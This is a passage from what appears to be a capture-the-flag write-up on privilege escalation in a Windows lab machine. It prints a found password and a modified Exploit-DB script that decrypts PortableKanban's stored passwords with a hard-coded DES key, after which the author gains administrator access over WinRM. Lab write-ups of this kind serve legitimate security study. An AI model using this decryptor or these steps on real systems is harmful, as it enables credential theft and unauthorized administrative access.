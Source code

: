 After a minute you will get a shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920160001.png)

Now get your user flag

## Privilege Escalation


![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920160914.png)

```
kidvscat_electron_@123
```

starting with checking whoami /priv and checking DDD (Desktop, Documents, Downloads) in downloads I found intersting directory PortableKanban

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920160313.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920161904.png)

```
"DbEncPassword":"Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb"
```

we see encrypted password, searching for decoding I found
https://www.exploit-db.com/exploits/49409
However I had some errors with this exploit so modified it, only function and print our decoded hash

```
import json
import base64
from des import *
import sys

def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print("{}".format(decode('Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi')))
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920170411.png)

Finally we decoded it, trying win-rm I got hit with administrator

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920170540.png)

Now we can collect root flag

## Other method 
